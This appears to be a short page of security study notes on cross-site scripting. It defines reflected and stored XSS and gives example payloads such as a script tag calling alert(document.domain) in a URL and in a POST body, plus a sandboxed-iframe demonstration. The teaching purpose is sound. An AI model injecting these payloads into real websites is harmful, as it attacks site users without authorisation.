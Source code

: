 ```yaml
---
title: "XSS"
weight: 29
---
```


# XSS

Cross-site scripting (XSS) works by manipulating a vulnerable web site so that it returns malicious JavaScript to users.

XSS cheatsheet: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

More info about Javascript & obfuscation: [javascript-security-considerations.md](../web-security/javascript-security-considerations.md "mention")

{{< details summary="Do not use alert(1) -> use alert(document.domain)" >}}


```html
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```

```javascript
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```

* Try `alert(1)` and you see it works... but
* `alert(document.session)` won't work... why?
* `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  * this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
* Use `alert(document.domain)` or `alert(window.origin)` instead

{{< /details >}}

## Reflected XSS

The malicious script comes from the current HTTP request.

```sh
https://insecure-website.com/search?term=<script>alert(document.domain)</script>
```

## Stored XSS

The malicious script comes from the website's database. POST body example:&#x20;

```sh
comment=<script>alert(document.domain)</script>
```
